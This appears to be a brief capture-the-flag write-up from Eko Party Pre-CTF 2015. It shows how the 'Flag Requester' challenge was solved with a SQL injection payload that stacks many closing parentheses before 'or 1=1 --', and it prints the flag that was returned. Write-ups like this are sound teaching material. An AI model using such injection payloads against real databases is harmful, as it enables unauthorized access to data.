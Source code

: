 ```yaml
---
layout: post
title: "Eko Party Pre-CTF 2015 Flag Requester"
date: 2015-09-20 23:49:27 -0400
author: [Kad--]
comments: true
categories: [ekoparty]
---
```


### Solved by Kad--


The input is vulnerable to SQL injection:

```
blabla')))))))))))))))))))) or 1=1 --
```

This returns:

```
Congrats! this is your flag: EKO{sqli_with_a_lot_of_)}
```

